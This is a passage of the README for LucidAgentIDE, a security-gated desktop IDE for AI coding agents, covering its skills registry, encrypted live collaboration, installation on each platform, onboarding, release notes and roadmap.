> persistent wiki of **summary, concept, and entity pages** joined by **cross-reference links** and **kept in
> sync** - structural, citation-backed retrieval inspired by [OpenKB](https://github.com/VectifyAI/OpenKB),
> rebuilt in **TypeScript + DuckDB (no Python)**. Same fail-closed gate on the source **and** on every
> model-compiled page (derived content never auto-trusts - keystone #2). One retrieval router answers from
> **vector, compiled, or both**, and the page graph renders in the KG canvas (the "Compiled KB" view).

## 🧩 Agent Skills directory & enterprise registry

> **Shipped** ([ADR-0097](DECISIONS.md) directory + management, [ADR-0101](DECISIONS.md) Skill Studio,
> [ADR-0098/0102](DECISIONS.md) registry reader + publish seams). An [Agent Skill](https://agentskills.io)
> is a `SKILL.md` folder the agent loads on demand - procedural memory that costs only a few metadata
> tokens until it triggers. LucidAgentIDE ships a curated bundled corpus, scan-gated skill import, and one
> place to **see and govern every skill** - with a path to host your own private registry.

- 🗂️ **One directory, every source.** Bundled, project (`.omp/skills`), user, and curated `.agents/skills/` skills in a single view - each with its **source root**, **trust label**, invocation id, and real progressive-disclosure token cost.
- 🎛️ **Manage, don't just list.** Inspect a skill's body + bundled scripts/references read-only, **enable/disable** it, **re-scan** it through the fail-closed gate, and remove imported ones - bundled assets stay immutable.
- 🛡️ **Fail-closed by construction.** A `suspicious`/`quarantined` skill is shown but **cannot be enabled or loaded**; a dead scanner on re-scan means quarantine, never "safe." Skill bodies are delimited *data*, never instructions (keystone #2 holds for skills too).
- 🛠️ **Skill Studio - turn your week into skills (shipped).** Built in [ADR-0101](DECISIONS.md) (`P-SKILL.5`), a one-click button that analyzes your **day's or week's** work (sessions, AI-authored edits, loop outcomes) and **drafts Agent Skills** with your most-used model - each one **scanned before it's saved** and **reviewed before it's codified** (a reviewed draft is excellent; an un-reviewed one is worse than none). Codified skills land in your **Local Skills Registry**.
- 🏛️ **Enterprise skills registry - reader seam ships now (`P-SKILLREG.1`).** The source-available app carries the read-only **registry reader**: an install is **fetch → verify (Ed25519 signature vs. your trusted keys) → scan-gate (the same fail-closed gate) → install**, and an **unsigned, signature-mismatched, unconfigured-key, or scan-flagged** skill is **blocked, never written** (keystone #2: an installed registry skill is shown `untrusted`, never auto-promoted to trusted). Installed skills appear in the directory above under a **Registry** source. The hosting side - publish/version/**sign (Cosign + SLSA)**/distribute as portable **OCI artifacts on an S3-compatible backend** that stands up identically on **AWS, Azure, Google Cloud, OCI, IBM Cloud, VMware, Nutanix, NetApp ONTAP, and KVM** via Terraform, incl. **air-gapped and IL5** partitions - is the separately-licensed add-on (server + runbooks are private IP).
- 🚀 **Push to where your org already lives - publish seam ships now (`P-SKILLREG.2`).** A single **`RegistryPublisher`** seam ships in the core with a default **`LocalRegistryPublisher`** (serves your skills as the Local Skills Registry) + a fail-safe `PublishDispatcher` (a dead/missing publisher never throws into a turn; a declared remote with no publisher is a clean no-op). The remote publishers - enterprise cloud OCI registries (AWS/Azure/GCP/Oracle/IBM) and **custom git** (Enterprise GitLab, GitHub, Azure DevOps) - implement the same interface and are a separately-licensed add-on. Publishing establishes **no trust**: the read side still verifies the signature + scan-gates before install; every remote push is **egress-gated** and centrally policy-clamped.

## 🤝 Live collaboration

> **Shipped** ([ADR-0192-0204](DECISIONS.md), `P-COLLAB`). Share a **running** LUCID session with another
> LUCID, live and **end-to-end encrypted** - a teammate watches your agent work in real time, or drives it -
> without handing over your machine, your keys, or your approvals.

<div align="center">

<br />
<sub><i>The Share panel - an end-to-end-encrypted invite, the self-hosted relay toggle, and the live roster. <b>Drop your screenshot at <code>.github/assets/live-collaboration.png</code>.</b></i></sub>
</div>

- 🔐 **End-to-end encrypted, host-authoritative.** The host broadcasts its own `ChatEvent` stream over an
  E2E-sealed relay (**AES-256-GCM**; the relay only ever sees ciphertext, never the room key). The key rides
  the **invite link**, never the wire.
- 👀 **Watch, or drive.** A **view** link is read-only; a **full/edit** link lets a guest **drive** the host's
  session - but every guest prompt still runs **on the host**, through *your* fail-closed scan gate +
  exec/egress approvals, so a guest bypasses nothing.
- 🏠 **Self-hosted by default.** **Be the relay** on your own device (loopback / LAN / VPN bind picker) so no
  third party ever touches the session - even encrypted - or run the **standalone broker** on an office server
  / DGX / Ubuntu jumpbox. The public relay is strictly opt-in.
- 🏢 **Enterprise-governed, fail-closed.** Group policy / MDM can clamp **who may host a relay** and **which
  bind addresses + relay endpoints** are allowed - tighten-only, refused unless explicitly permitted.
- ⚡ **Optional direct P2P (WebRTC).** Flip on *"prefer a direct connection"* and a share upgrades to a direct
  **DTLS DataChannel** - the relay only brokers the SDP/ICE signaling handshake, then peers go peer-to-peer,
  with **automatic relay fallback** when a NAT blocks the direct path.
- 🧾 **Audited.** A **metadata-only** audit trail records share/join start/stop over both transports (transport,
  access, opaque room id, guest name) - **never** the room key, invite links, or any session content.

##  Built on

LucidAgentIDE is a thin, principled layer over best-in-class building blocks - credit where it's due:

| Project | What it is | How LucidAgentIDE uses it |
|:--|:--|:--|
| [**oh-my-pi (omp)**](https://omp.sh) <sub>· [repo](https://github.com/can1357/oh-my-pi)</sub> | A fast agentic coding runtime: tool-calling, model routing, sessions, sandboxing, ACP, extensions, skills | The host. Everything is added via omp **hooks / custom tools / SDK** - **never a fork** |
| [**DuckDB**](https://duckdb.org) | An in-process analytical (OLAP) SQL database | The append-only **provenance + memory store** (findings, telemetry, semantic memory, run lineage) |
| [**Obsidian**](https://obsidian.md) | A local-first Markdown knowledge base with `[[wikilinks]]` + a graph view | The **export format** for the personalization knowledge graph - one click decrypts your Personal + Work nodes into a portable vault (notes, `[[wikilinks]]`, escaped; CUI excluded by design; audited) |
| [**BoringSSL**](https://boringssl.googlesource.com/boringssl/) | Google's streamlined fork of OpenSSL (Bun's crypto backend) | Context for the **FIPS posture** - FIPS-approved algorithms; no FIPS *mode* in Bun's runtime |
| [**headroom**](https://github.com/chopratejas/headroom) | An on-device, OpenAI-compatible token-compression proxy (60-95% reduction) | **Opt-in** context compression to stretch gov token quotas |
| [**AskSage**](https://asksage.ai) | An accredited government generative-AI gateway fronting OpenAI/Anthropic/Google | An omp **provider extension**: lockdown, scanned personas, dataset-grounded RAG |

Runtime stack: [Bun](https://bun.sh) (harness + dev server), [Electron](https://electronjs.org) (desktop),
[uv](https://docs.astral.sh/uv/)-managed Python (scanner sidecar).

##  Quick start

```bash
bun install                       # harness deps (Bun >= 1.3)
cd scanner-sidecar && uv sync     # pinned Python sidecar venv

# prove it end-to-end
bun run demo-00                   # omp echo round-trip + scanner + fail-closed proof
make test                         # full suite: harness + desktop + scanner sidecar (7,300+ tests)
bun run demo-P4.3                 # poisoned memory can't auto-promote (keystone #2)
bun run demo-P2.1                 # unicode scanner: every finding fires, clean corpus is FP-free
```

Requires [Bun](https://bun.sh) and [uv](https://docs.astral.sh/uv/). `make` is optional - the
[`Makefile`](Makefile) is the canonical task spec, mirrored as bun scripts on hosts without `make`.

**Verification.** Every increment ships a runnable proof - `make demo-<id>` (e.g. `demo-P-EXEC.1`,
`demo-P-TOOLFAIL.1`, `demo-P-EGRESS.2`; `make help` lists them all) - and CI runs the full test suite plus
`tsc --noEmit` across all three TypeScript projects on every push. New work lands one increment per session
behind its own ADR + demo + tests; see [`CLAUDE.md`](CLAUDE.md) for the invariants and session ritual.

##  Desktop app

A polished Electron shell: a **gated agent chat**, plus live **Security** and **Memory & Context** inspectors
(collapsible sections, custom tooltips, ⌘K palette, a non-modal fly-in toast when the gate quarantines a tool
call).

<div align="center">
<br/>

<br/>
<sub><b>↑ The gated chat + live Memory & Context rail</b> - prompt-cache savings, context window, turns, findings, and quarantines at a glance; every tool call is scanned before it runs (<code>gate active · live</code>).</sub>
</div>

```bash
bun run desktop:web      # http://localhost:5319 - full GUI (chat + dashboards) in a browser
bun run dashboard:web    # http://localhost:4317 - dashboards only, live, read-only
cd desktop && bun install && bun run start   # the packaged Electron app
```

`desktop:web` runs the exact same renderer with a **real omp chat backend** (the dev server drives
`omp acp -e harness/omp/security_extension.ts`), so the **security gate stays loaded in-process on the chat
path** and you get genuine model replies in a plain browser - no Electron needed. See
[`desktop/README.md`](desktop/README.md) and [ADR-0006](DECISIONS.md).

### Themes

LUCID was dark-only for its entire life. There is now a **theme picker** in **Settings -> Theme**: seven
full palettes plus an explicit **Match system** tile, applied instantly across the app, the Monaco code
editor and the trainer stage.

| Theme | Scheme | Character |
|:--|:--|:--|
| **Lucid Dark** *(default)* | dark | The original: near-black ground, magenta accent, cyan for data. |
| **Midnight** | dark | Deep indigo, cooler and quieter than the default. |
| **Slate** | dark | Neutral gray with the color turned right down. |
| **Ember** | dark | Warm amber and red over a roasted dark ground. |
| **High Contrast** | dark | Pure black with maximum-contrast text for low vision. |
| **Lucid Light** | light | The same brand hues on a light neutral ground. |
| **Paper** | light | Warm sepia light, easy on the eyes in a bright room. |
| **Match system** | follows OS | An opt-in choice with its own stored id, not a silent default. |

Two rules worth knowing. **An unset preference means Lucid Dark**, not "follow the OS": while those two
shared one value, a long-time user on a light-mode machine was silently moved off the dark UI they had
always had, so following the OS is now something you pick once *(P-THEME.2, ADR-0326)*. And every palette
is **token-complete by test** - CI parses the stylesheet and fails the build if a theme omits a token,
because a light theme that forgets one silently inherits the dark base and ships unreadable white-on-white,
which no typecheck or smoke test catches *(P-THEME.1, ADR-0320)*.

### Platform Builds

CI builds desktop installers for **all three platforms** on every tag push:

| Platform | Artifact | Status | Download (latest release) |
|:--|:--|:--|:--|
| **Windows** | NSIS installer + portable `.exe` (x64) | [](https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml) | [**Installer**](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-Setup.exe) · [Portable](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-portable.exe) |
| **macOS** | `.pkg` installer **+** `.zip` app bundle (arm64 + x64) | [](https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml) | `.pkg`: [**Apple Silicon**](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-mac-arm64.pkg) · [Intel](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-mac-x64.pkg) · `.zip`: [arm64](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-mac-arm64.zip) · [x64](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-mac-x64.zip) |
| **Linux** | portable `AppImage` (x64 + arm64), `.deb` and `.rpm` (x64) | [](https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml) | [**AppImage**](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-x86_64.AppImage) · [arm64](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgent-arm64.AppImage) · [.deb](https://github.com/mlcyclops/lucidagentide/releases/latest/download/lucidagentide-desktop_2.3.1_amd64.deb) · [.rpm](https://github.com/mlcyclops/lucidagentide/releases/latest/download/lucidagentide-desktop-2.3.1.x86_64.rpm) |

All builds bundle [Bun](https://bun.sh) and [uv](https://docs.astral.sh/uv/) runtimes so the installed app
needs **zero prerequisites**. Code-signing and notarization are supported when certs are configured.

> **macOS:** double-click the **`.pkg`** to install `LucidAgentIDE.app` into **Applications** - the simplest
> path. Builds are unsigned, so if Gatekeeper blocks the first launch, right-click the app -> **Open** once
> (or System Settings -> Privacy & Security -> **Open Anyway**). Prefer no installer? The **`.zip`** is a
> drag-to-Applications app bundle, and in-app auto-update uses that same zip feed. Or use **Homebrew** (below),
> which installs the `.pkg` and strips quarantine for you - no Gatekeeper prompt.
>
> **Linux:** the download is a portable `AppImage` - `chmod +x LucidAgentIDE-x86_64.AppImage` and run it,
> no install needed.

### Homebrew (macOS)

Install the desktop app with Homebrew Cask straight from this repo - no manual unzip. The cask is
pinned to the current tagged release with real SHA-256 checksums, and CI re-pins it on every release
(the `update-cask` job), so `brew update && brew upgrade --cask lucidagentide` is the reliable way to
update on macOS. (In-app auto-update cannot install on the unsigned macOS build until code-signing
lands - ADR-0246 - so Homebrew IS the macOS update channel for now.)

```bash
brew tap mlcyclops/lucid https://github.com/mlcyclops/lucidagentide
brew trust --cask mlcyclops/lucid/lucidagentide
brew install --cask lucidagentide
```

`brew trust` is required on Homebrew 6+, which refuses to load casks from a third-party tap until you
explicitly trust it (older Homebrew skips this step). The cask unpacks the release `.zip` and copies
`LucidAgentIDE.app` into `/Applications` itself (an `app` cask: no `installer(8)`, no package-trust
step, nothing like the deprecated `allow_untrusted` flow), then a `postflight` strips the macOS
quarantine flag, so the unsigned/not-notarized build still launches with **no Gatekeeper prompt** and
no manual `xattr` step. The cask serves both Apple Silicon and Intel automatically. To remove it
later: `brew uninstall --cask lucidagentide` (add `--zap` to also delete app data).

The install also puts two commands on your PATH: `lucid` (the fail-closed launcher)
and `lucid-hub` (a shim that execs `lucid hub`), so the terminal hub works from any
terminal, including inside herdr.

##  Onboarding

First launch asks **who you are**, then gets out of your way. Pick one of four roles - **Developer**,
**Security engineer**, **Manager**, or **Executive** - and the IDE leads with the surface that role actually
uses: the developer lands on chat + live context/cache/cost, the analyst on the security queue, the manager
on the cost + delivery ledger, the executive on a posture + spend summary. Nothing is ever hidden for good -
every panel stays one `Ctrl`/`⌘`+`K` away, and a real security block always surfaces for every role. Roles
are a cosmetic preset: they change what's *foregrounded*, never what the fail-closed gate enforces.

A one-time **guided walkthrough** then spotlights the panels that matter to your role - composer, security
queue, memory, command palette - in the same premium card style as the model picker. Skip it any time, or
replay it later from **About -> Take the tour**. Switch roles whenever you like in **Settings -> Profile**; a
managed GPO/MDM policy can pin the role org-wide. Every role gets its own custom animated glyph, and shortcut
hints render per-OS (`⌘K` on macOS, `Ctrl+K` on Windows/Linux).

<div align="center">
<br/>

<br/>
<sub><b>↑ The role picker</b> - choose a role to tailor the first view. Custom animated glyph per role; cosmetic only - the fail-closed security gate is identical for every role.</sub>
<br/><br/>

<br/>
<sub><b>↑ The guided walkthrough (coachmark)</b> - a dimmed, dismissable spotlight on each panel that matters to your role, in the model-picker card style; Back / Next / Skip, replayable any time from About.</sub>
</div>

### Role guides

The onboarding tour teaches the UI in seconds then vanishes; for a durable, read-end-to-end reference each
role has its own **user guide** under [`docs/guides/`](docs/guides/README.md) - task-oriented walkthroughs in
that role's language, with step-by-step capability tours, tips/warnings, and a cited *Notes and References*
section. Read your own, link a teammate to theirs, or hand the security guide to an auditor:

- **[Developer guide](docs/guides/developer-guide.md)** - chat + model picker, edit modes, the Memory inspector (context / cache / cost), Knowledge & RAG, the gated Save, and the `/goal` loop.
- **[Security guide](docs/guides/security-guide.md)** - the fail-closed gate + scanner, the quarantine/approvals queue, the promotion gate, per-action exec + the Speed↔Risk dial, egress approval, and the OCSF audit export.
- **[Manager guide](docs/guides/manager-guide.md)** - the cost & savings ledger + showback, the AI-authorship LOC ledger, `/goal` after-action reports, the budget kill switch, and AskSage gov usage.
- **[Executive guide](docs/guides/executive-guide.md)** - the posture + spend summary, the Engineering Update brief, and the governance posture tiles.

> Guides ship with documented screenshot placeholders ([`docs/guides/`](docs/guides/README.md) explains the
> capture spec); the captured images land in a follow-up pass.

##  Roadmap

**Shipped and green.** The full security lifecycle, provenance lineage + replay, the cache-optimized prompt,
the desktop app, and the AskSage gov gateway (with tool use on Claude *and* Gemini). Plus cross-model cost
tracking, CUI isolation, the encrypted personalization graph with cross-session recall (and one-click
Obsidian-vault export), AI-authorship attribution, one-command import, a read-write IDE with gated saves,
the **`/goal` loop** with full loop-engineering (after-action reports, a budget kill switch, and stall
guards), a local **RAG knowledge spine** + the **compiled KB** with hybrid retrieval, the governed **skills
directory** + **Skill Studio**, **local & hybrid providers**, the **Agent Builder**, the **agent firewall**,
and the **runtime execution boundary** (OS-isolated exec + mediated egress). **Newest (v2.5.2):** bug fixes only:
a cloud-only automatic model default with embedding models never used for chat *(ADR-0498)*, omp's `ask` tool off in
ACP sessions *(ADR-0523)*, a compositor-only approval pulse *(ADR-0524)* and the Fleet Orbit ring. **v2.5.1:** provider
keys, account keys and MCP tokens in an **engine-side OS vault** (DPAPI, Keychain, Secret Service) with
**FIPS 140 crypto at rest**, a vault list and encrypted backup, secrets asked through a LUCID dialog, `.env`
import, and a **NIST SP 800-171 Rev 3 evidence package** *(ADR-0472..0479)*; the renderer watchdog
*(ADR-0481)*; staged prompts that own their images *(ADR-0469)*; the Knowledge graph **Orbit view** and a
readable flat graph *(ADR-0470/0471)*. **v2.5.0** promoted four
betas to stable: the **Plugins drawer** in the Preview panel with signed `.lplugin` installs and
the premium plugin marketplace *(P-PLUGINS, ADR-0461..0466)*; the **AOS-1 fleet goal**, heartbeat and
verified tasks on the orbit *(P-AOS.1/.2, ADR-0452/0453)*; the **`lucid hub` terminal train** (spaces, tabs,
rail, decks, palette and a loopback control server; P-TUI.3..6, ADR-0433..0436); the agent's headed browser
shown again *(ADR-0456)*; and an air-gap gate that accepts two signatures of one bun *(P-RELEASE.9,
ADR-0468)*. **v2.4.1** was a patch
release on 2.4.0: the five **session-switch** failures of #460 closed (a forced switch stops the `/goal` loop
and waits for it to unwind, only goal-kind automations block a switch, the engine's 409 answer decides what
the thread shows, a late preflight cannot win) *(#507, #509, #510, #511)*; an **honest AI-LOC ledger** that
counts only completed edits and writes from the tool's result diff and never counts `xd://` or other internal
URIs *(#489, #492, P-LOC.5, ADR-0451)*; the **Homebrew cask as an app cask** over the release `.zip` with
`lucid` and `lucid-hub` on PATH *(#453, #468)*; explicit budgets for four Windows CI tests *(#513)*.
**v2.4.0** was the first
**signed Windows release**: every installer and executable Authenticode-signed by **TECHLEAD 187 LLC**
through Azure Artifact Signing, RFC 3161 timestamped, the updater pinned to that publisher and a release that
cannot sign failing instead of shipping unsigned *(P-RELEASE.6/.7, ADR-0447, ADR-0450)*; a **paired
controller with its own token scope** on loopback, supervised lanes only, scanner first *(P-CTRL.2,
ADR-0438)*; plus the two 2.4.0 betas promoted: omp 18.8.6, OpenAI device-code sign-in,
Microsoft's eXecution Container behind the Windows sandbox, scheduled jobs, atomic settings and LAN model
servers through the egress proxy *(ADR-0439..0446)*. Earlier releases are on
[GitHub Releases](https://github.com/mlcyclops/lucidagentide/releases).

**7,300+ tests**: at v2.5.0 the Windows test gate ran **7,256 tests across 535 files** (7,244 pass, 0 fail;
scope defined by exclusion, ADR-0303), the harness suite 2,251 tests across 190 files, plus the Python
sidecar's 57, with `tsc --noEmit` clean on the shipping projects. The table below is the recent slice;
[`PROGRESS.md`](PROGRESS.md) has the full per-session log.

### Recent updates

| Phase | Feature | ADR |
|:--|:--|:--|
| **v2.5.2 batch** | **🔧 Patch release: model defaults, questions, approval pulse, orbit ring** - bug fixes only (#570, #572, #574, #576). **MODEL** (`P-MODEL.9`, ADR-0498): the automatic default picks only cloud models, a local model is restored only from an explicit picker choice, embedding and reranker models are never a chat model or the `/goal` checker, and the "No response" card offers a provider refresh. **ASK** (`P-ASK.1`, ADR-0523): omp's `ask` tool is off in every ACP session, `lucid acp` included, so a declined question no longer ends the turn. **GLOW** (`P-GLOW.1`, ADR-0524): the needs-approval pulse animates opacity on the compositor. **ORBIT** (#575): the inner ring is drawn from the layout's own radii. Docs: the P-HERD design ADRs (ADR-0489..0497). | [ADR-0489..0498, 0523, 0524](DECISIONS.md) |
| **v2.5.1 batch** | **🔐 The engine OS vault, promoted to stable** - 2.5.1-beta.1 plus its upgrade review fixes, released as the repository's Latest. **VAULT** (`P-VAULT-KEYS.1`, `P-VAULT-V2.1`, `P-VAULT-UI.1`, ADR-0472/0474/0475): provider keys, account keys, MCP tokens and the TURN credential sealed by DPAPI, Keychain or Secret Service on the first engine start, one v2 vault, a Settings list and a `.lucidvault` encrypted backup. **CRYPTO** (`P-FIPS.1`, ADR-0473): at-rest crypto through the OS FIPS 140 module with an honest claim. **SECRETS** (`P-SECRET-INTAKE.1`, `P-VAULT-ENV.1`, `P-VAULT-DEST.1`, ADR-0476..0478): a masked dialog, `.env` import, enterprise destinations. **EVIDENCE** (`P-COMPLY.1`, ADR-0479): NIST SP 800-171 Rev 3 matrix, POA&M, evidence report. **RECOVERY** (`P-RECOVER.4`, ADR-0481). **QUEUE** (`P-QUEUE-IMG.1`, ADR-0469). **KNOWLEDGE** (`P-KG-ORBIT.1`, `P-KG-FLAT.1`, ADR-0470/0471): the Orbit view, ranked search, a readable flat graph. | [ADR-0469..0481](DECISIONS.md) |
| **v2.5.0 batch** | **🧩 Four betas promoted to stable** - beta.1 through beta.4 plus everything merged since beta.4, released as the repository's Latest. **PLUGINS** (`P-PLUGINS.1-6`, ADR-0461..0466): the Plugins drawer in the Preview panel (Premium and Free, Civilian and Government), signed `.lplugin` install with manifest, hash, signature and scanner gates, $29.99 Stripe checkout through the LUCID account, the Government access gate and the owner Marketplace Dashboard. **FLEET** (`P-AOS.1/.2`, ADR-0452/0453): one standing fleet goal with a mandatory spend + time budget, a 10 s heartbeat, and verified tasks. **HUB** (`P-TUI.3..6`, ADR-0433..0436): the `lucid hub` control plane, decks, tabs, rail, palette. **FIXES**: the headed browser shown again (ADR-0456), Creator jobs in the Creator ledger, Timeline and first-turn fixes. **CREATOR**: explainer and curriculum built-ins for the Creator build only (ADR-0460, ADR-0467). **RELEASE** (`P-RELEASE.9`, ADR-0468): the air-gap gate compares Authenticode image digests, so the two separately signed copies of one bun pass. **PWA**: the phone app hardened against hostile host values (#544). Gate 535 files / 7,256 tests, plus the sidecar's 57. | [ADR-0452..0468](DECISIONS.md) |
| **v2.4.1 batch** | **🔧 Patch release: session switching, honest AI-LOC, Homebrew app cask** - bug fixes only (#514, #516). **SWITCHING** (#460 cases 1-5): "Stop it and switch" stops a running `/goal` loop and waits for it to unwind before the session changes (#507); the "an automation is running" blocker fires only for goal-kind automations that own Main's session, agent-kind ones in their own child pipeline no longer refuse a switch (#509); the engine's answer to a load/new is the authority for what the thread shows: a busy 409 between turns reloads the holder's transcript, a held 409 attaches to the holding spoke per the ADR-0404 registry, no answer is never a completed switch (#510); `openSession` takes a generation number before any await and discards superseded plans, so a late preflight for session A cannot win over B (#511). **AI-LOC**: `xd://` device calls and other internal URIs (`local://`, `agent://`, `skill://`) are never counted as AI-authored code or shown as an inline diff/preview (#489, #483); the ledger counts only successfully completed edits and writes from the tool's actual result diff (per-file results when present), blocked, failed and duplicate completions add nothing, and chat + Fleet edit previews share one canonical extractor (`P-LOC.5`, ADR-0451, #492). **HOMEBREW**: the cask is an app cask over the release `.zip` (no pkg, no deprecated `allow_untrusted`), pinned per release, the `.pkg` assets still shipped for MDM, with a `make demo-P-BREW.1` naming-contract check (#453); Homebrew installs put `lucid` on PATH and add a `lucid-hub` wrapper (#468). **CI**: explicit budgets for the four tests the Windows gate killed under load (#513). | [ADR-0451](DECISIONS.md) |
| **v2.4.0 batch** | **✍️ The first signed Windows release, two betas promoted** - `ADR-0438..0450`. **SIGNING** (`P-RELEASE.6/.7`, ADR-0447/0450): every Windows artifact (NSIS Setup, portable, MSI, AppX, the app exe and each bundled exe) is Authenticode-signed through Azure Artifact Signing with `CN=TECHLEAD 187 LLC` and RFC 3161 timestamped; the UAC prompt, Explorer's Details tab, Programs and Features, the AppX listing and the About dialog all carry the one publisher string; the in-app updater refuses an update not signed by that publisher, and a release run that cannot sign fails instead of shipping unsigned (SmartScreen reputation accrues as signed downloads accumulate; macOS stays unsigned on Homebrew until an Apple certificate exists). **CONTROLLER** (`P-CTRL.2`, ADR-0438): a paired external controller gets its own token scope (argon2id-hashed pairing store) and `/api/controller/*` on loopback only, supervised lanes only, every prompt through the fail-closed scanner first. **PROMOTED**: beta.1 (omp 18.8.6, OpenAI device-code sign-in, MXC behind the Windows sandbox, scheduled jobs, Fleet grid fixes) and beta.2 (atomic settings with a last-good backup, LAN model servers through the egress proxy, catalog titles on one line). | [ADR-0438..0450](DECISIONS.md) |

**Next** - designed in ADRs, building one increment per session:

| Theme | ADR |
|:--|:--|
| **Guided Knowledge & RAG import P-RAG.2-4** - the one-popup ingest walkthrough with a parse-and-scan preview, image captioning/OCR, and AskSage dataset training on the local spine | [ADR-0053](DECISIONS.md) |
| **Marketplace installs P-MARKET.2** - install a curated integration from a GitHub URL, gated exactly like agent-template import (digest + scan + trust label + approval) | [ADR-0158/0181](DECISIONS.md) |
| **Model-Evaluation, deepened P-EVAL.4** - wire the single-writer ingest of the metrics + latency JSONL ledgers into the observer DuckDB (so the `latency_rollup` view + cross-tool SQL see live data), a weekly/monthly **period selector** on the rollup, and a history/trend view of per-model quality over time | [ADR-0187](DECISIONS.md) |
| **Chat-turn polish P-CHAT.2** - a failed-tool inline `.fail` chip in the settled answer, and a step-sidecar interleave so **restored** turns show their chips too | [ADR-0189](DECISIONS.md) |
| **Exec-tool safety** - extend the per-action gate to `ssh` (key = host) and `task` sub-agents | [ADR-0066](DECISIONS.md) |
